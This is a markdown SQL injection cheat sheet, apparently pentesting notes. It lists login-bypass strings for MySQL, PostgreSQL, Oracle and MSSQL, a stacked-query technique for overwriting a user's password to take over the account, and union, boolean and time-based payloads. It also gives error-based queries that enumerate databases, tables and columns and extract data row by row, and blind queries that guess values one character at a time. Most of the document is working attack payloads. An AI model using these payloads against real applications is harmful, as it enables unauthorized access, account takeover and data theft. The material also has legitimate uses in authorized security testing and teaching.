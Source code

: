 # SQL injection

## Simple login bypass

#### MySQL

```
' or 1=1;#
' or 1=1 LIMIT 1;#
```

#### PostgreSQL

```
' or 1=1;--
' or 1=1;/*
' or 1=1 LIMIT 1;--
```

#### Oracle

```
' or 1=1--
' or 1=1 LIMIT 1--
```

#### MSSQL

```
' or 1=1--
```

## Login bypass by blind update

This technique requires you to know the table and column name of the password field. Once discovered we attempt to update the value of the password with an arbitrary one and then log in as the user. In case of stored password hashes we have to guess the correct hash format.

#### Update and verify execution

Execute an update statement and then verify its execution by running a select query on the new value. If the application hangs for the specified time then the update is successful and we have writing rights

```
'; update <table> set <col> = '<str>' where username = '<user>'; IF ((select count(*) from <table> where <col>='<str>')=1) WAITFOR DELAY '0:0:10';--
```

#### Convert string to hash

If the db stores the passwords as hashes we have to guess the hash type. We can use the following commands to generate hash strings to use with the update statement

```
echo -n '<pass>' | md5sum
echo -n '<pass>' | sha1sum
echo -n '<pass>' | sha256sum
```

## Injection types

### SELECT

```
SELECT * FROM accounts WHERE user = 'xxx' AND pass = 'yyy'

xxx' OR 1=1;--            #hides the condition on pass field behind a comment
xxx' OR 1=1 LIMIT 1;--    #hides the extra quote with a comment and limits the results to 1 match (can avoid simple SQLi detections)
```

### INSERT

```
INSERT INTO accounts (user, pass, info) VALUES ('xxx', 'yyy', 'zzz');

xxx');<commands>;--    #close the open sets of quotes and brackets, hide the duplicates behind inline comment
```

### UPDATE

```
UPDATE accounts SET info='xxx' WHERE user = 'yyy';

xxx';<commands>;--    #DANGEROUS! Hides the WHERE clause, all info fields in table will be set to "xxx"
yyy';<commands>;--    #update statement completes normally, then the injected commands will be executed
```

## Techniques

### Boolean based

Execute a query containing a valid parameter (such as an item ID) and concatenate to the instruction a comparison statement that will always be true or false.

```
<param>' and 1=1;    #returns the item matching <param>
<param>' and 1=0;    #returns nothing
<param>' or 1=1      #returns everything
```

If the first statement returns the expected value and the second statement returns nothing then the field or parameter are vulnerable

#### Payload variants

```
' and 'a'='a    #strings instead of numbers, note the missing quote at the end
' and "a"="a    #double quotes instead of single, note the missing quote at the end
') and 1=1;     #closed round bracket to exclude other conditions
') and 'a'='a'; #version with string comparison
```

### Union based

1. Find the number of columns: `' or 1=1 order by <col number>; --` increase the number of columns until you get an error. Pay also attention to how the output is ordered, this allows you to match a column number to its output field.
2. Join data: `' or 1=1 union all select <fields> from <table>; --` since the UNION operation requires that both tables have the same column number, add NULL values for the missing columns in the select if the operation fails.

### Time based

Execute a query that results in a boolean statement (true/false). Use a time delay command to stop execution if the result is True. Useful to display boolean values since error based data disclosure doesn't work with them.

```
');if (IS_MEMBER ('db_owner') = 0) WAITFOR DELAY '0:0:5';--
```

This technique can also be used to verity the existence of an SQL injection vulnerability in the same way as the Boolean attack. If the application freezes for the given amount of time after executing the query then the field or parameter are vulnerable

```
<value>'; WAITFOR DELAY '0:0:5'; --
```

### Error based

If the field you're injecting is not used to display data it is possible to make the database print data by causing a cast error i.e. casting strings to integers. This allows you to read one value in a table at time, to print more values filter by row number.

```
'); select CAST(@@version as int);--
```

#### Print database list

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM master..sysdatabases) AS foo WHERE rownumber = <row>;--
```

#### Print tables in database

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM <db>..sysobjects WHERE xtype = 'U') AS foo WHERE rownumber = <row>;--
```

#### Enumerate columns

```
');SELECT CAST (foo.name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY archive..syscolumns.name ASC) AS rownumber,<db>..syscolumns.name AS name FROM <db>..syscolumns, <db>..sysobjects WHERE <db>..syscolumns.id=<db>..sysobjects.id AND <db>..sysobjects.name='<table>') AS foo WHERE rownumber = <row>;--
```

#### Select data from column in nth row

Insert the columns you need to read in the inner select, in this way it wil be possible to select by row number and read the content of the column one row at time.

```
');SELECT CAST (foo.col1 AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY id ASC) AS rownumber,<db>..<table>.<column> AS col1 FROM <db>..<table>) AS foo WHERE rownumber = <nth>;--
```

### Blind queries

Allows to retrieve information about the db structure and its contents by querying the db using boolean statements such as "does this table exists?" in combination with an error or time based query. In this way we can verify the result of query by checking if an error is returned or the execution is paused by the given time.

Time based queries are your best bet because error strings may be intercepted by error control mechanisms on the backend while sleep instructions are executed as standard SQL instructions.

These examples are written in MSSQL format with time based queries but can be easily converted in any SQL dialect.

#### Generic query

```
'; IF (<statement>) <wait or error instruction>;--
```

#### Check if table exists

```
'; IF ((select count(name) from sys.tables where name = '<table>')=1) WAITFOR DELAY '0:0:10';--
```

#### Check if column exists

```
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = '<table>' and c.name = '<column>')=1) WAITFOR DELAY '0:0:10';--
```

#### Check if value exists

```
'; IF ((select count(<column>) from <table> where <column> = '<value>')=1) WAITFOR DELAY '0:0:10';--
```

#### Guess values

It is possible to discover a given value by using the like condition to check one character at time until we find the complete string. For example to find the user table we proceed as follows

```
'; IF ((select count(name) from sys.tables where name like 'u%')=1) ...
'; IF ((select count(name) from sys.tables where name like 'us%')=1) ...
'; IF ((select count(name) from sys.tables where name like 'use%')=1) ...
'; IF ((select count(name) from sys.tables where name like 'user%')=1) ...
```

This technique can be applied to any object in the database including tables, column names and values
